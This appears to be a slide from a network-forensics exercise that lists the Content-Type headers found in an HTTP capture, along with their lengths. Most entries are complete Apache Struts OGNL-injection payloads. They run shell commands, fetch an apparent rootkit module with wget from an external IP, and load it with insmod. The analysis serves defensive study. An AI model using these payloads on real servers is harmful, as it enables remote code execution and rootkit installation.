

# Task 1 – HTTP Traffic Analysis
2.a Provide a list of the Content-Type headers sent to the vulnerable server from the provided HTTP packet capture. For each Content-Type header, provide its length as well.

#0 .multipart/form-data~${#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].addHeader("LOLOLOLOLOLPAYLOADWORKEDLOLOLOLOL",1330+7)} length: 144
#1 .multipart/form-data~${#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].addHeader("LOLOLOLOLOLPAYLOADWORKEDLOLOLOLOL",1330+7)} length: 144
#2 .multipart/form-data~${#context["com.opensymphony.xwork2.dispatcher.HttpServletResponse"].addHeader("LOLOLOLOLOLPAYLOADWORKEDLOLOLOLOL",1330+7)} length: 144
#3 application/x-www-form-urlencoded length: 33
#4 application/x-www-form-urlencoded length: 33
#5 application/x-www-form-urlencoded length: 33
#6 application/x-www-form-urlencoded length: 33
#7 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 806
#8 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 810
#9 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget http://162.212.156.148/rk.ko > rk.ko').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 845
#10 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget http://162.212.156.148/rk.ko > rk.ko').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 845
#11 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='insmod rk.ko.1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 818
#12 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='insmod rk.ko.1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 818
 #13 %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='insmod rk.ko.1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} length: 818